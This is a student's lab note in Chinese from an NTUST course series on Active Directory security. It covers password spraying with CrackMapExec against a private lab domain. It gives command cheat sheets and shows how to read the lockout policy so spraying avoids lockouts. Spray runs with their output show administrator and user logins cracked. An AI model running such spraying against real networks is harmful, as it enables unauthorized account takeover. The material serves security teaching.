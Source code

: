 ```yaml
---
title: NTUSTISC - AD Note - Lab(Password Spraying)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Password Spraying)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
* 密碼收集
    * SAM.hive(Security Account Manager)
    * Password Spraying(用猜的)
        * 和brute force差在哪裡呢?其實概念一樣，只是角度不一樣，brute force是針對一隻帳號，用很多的密碼去猜；而password spraying則是用一組密碼去爆所有的帳號，其實就是反過來
        * Tool: [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) - 結合各種功能的內網滲透神器
    * GPO
    * 記憶體(lsass)

## Lab

### ==Password Spraying==
1. How to use?
    * Cheat Sheet
        ```bash
        $ crackmapexec <protocol> <target(s)> -u <a file or string only> -p <a file or string only>

        # For example
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd
        $ crackmapexec smb 10.10.10.100 -u ~/file_usernames -p ~/file_passwords
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd --local-auth
        $ crackmapexec smb <filename> -u administrator -p Passw0rd --local-auth
        ```
        `--local-auth`代表是用本機帳號的角度登入，就不是用domain admin的角度登入
2. Recon Password Policy
    在PowerShell中使用`$ Get-ADDefaultDomainPasswordPolicy`調查Domain上的密碼原則，Note: ==Win2016要打開==
    ```bash
    $ Get-ADDefaultDomainPasswordPolicy                                                        

    ComplexityEnabled           : False
    DistinguishedName           : DC=kuma,DC=org
    LockoutDuration             : 00:01:00
    LockoutObservationWindow    : 00:01:00
    LockoutThreshold            : 0
    MaxPasswordAge              : 00:00:00
    MinPasswordAge              : 00:00:00
    MinPasswordLength           : 4
    objectClass                 : {domainDNS}
    objectGuid                  : 29531761-1cf9-452c-8ee7-d5056e01d82b
    PasswordHistoryCount        : 24
    ReversibleEncryptionEnabled : False
    ```
    要注意的地方：
    * LockoutThreshold: 可以錯誤嘗試的次數，0就代表沒有設定，可以無限次數的爆破，如果有設定例如5，那可能就要修改攻擊策略，可能每天不能試超過兩次之類的，讓原使用者也還有容錯的空間可以登入
    * MinPasswordLength: 大多數使用者會遵從最小密碼原則，如果要猜密碼就可以嘗試從四位密碼以上開始猜
3. Check IP
    首先我們要先看一下AD的IP為多少，通常我們要做這種password spraying都是對著AD，所以我們要先尋找目標
    ```bash
    $ ipconfig

    Windows IP Configuration


    Ethernet adapter Ethernet0:

       Connection-specific DNS Suffix  . : localdomain
       Link-local IPv6 Address . . . . . : fe80::651f:6e78:505f:75f%5
       IPv4 Address. . . . . . . . . . . : 192.168.222.128
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 192.168.222.2

    Tunnel adapter isatap.localdomain:

       Media State . . . . . . . . . . . : Media disconnected
       Connection-specific DNS Suffix  . : localdomain
    ```
    IP: `192.168.222.128`
4. 在Kali使用CrackMapExec
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u administrator -p 1qaz@WSX3edc             
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    ```
    可以看到這個網段底下的確有兩個主機的密碼被Pwn出來
5. Lab
    ==找出使用預設密碼(Changeme123!)的使用者
    找出使用(ncc1701)作為密碼的使用者==

    我先試著用前面提到的leak password from description中找到的兩組密碼實際測試看看
    帳密一、Lina Allene→`r2NE4/9:F;[k`
    帳密二、Fara Iseabal→`8F%kJ2q_cVFg`
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p r2NE4/9:F\;\[k
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:r2NE4/9:F;[k STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\aleda.appolonia:r2NE4/9:F;[k STATUS_LOGON_FAILURE
    ...
    ```
    的確是lina.allene的密碼
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p 8F%kJ2q_cVFg
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:8F%kJ2q_cVFg STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:8F%kJ2q_cVFg STATUS_LOGON_FAILURE
    ...
    ```
    的確是fara.iseabal的密碼
    
    ---
    
    先利用win2016查詢`$ net user`然後把結果存成一個file，然後-u後面帶這個file
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p Changeme123\!
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:Changeme123! STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:Changeme123! STATUS_LOGON_FAILURE
    ...
    ```
    由於這個密碼的spraying結果沒有像前面兩個這麼明確，只有ella.randee的結果與別人不一樣，我不確定是不是command下錯之類的，但結果只有這樣
    ```bash
    crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p ncc1701
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\aleda.appolonia:ncc1701 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\aleda.appolonia:ncc1701
    ```
    最後結果顯示是aleda.appolonia這個使用者的密碼為ncc1701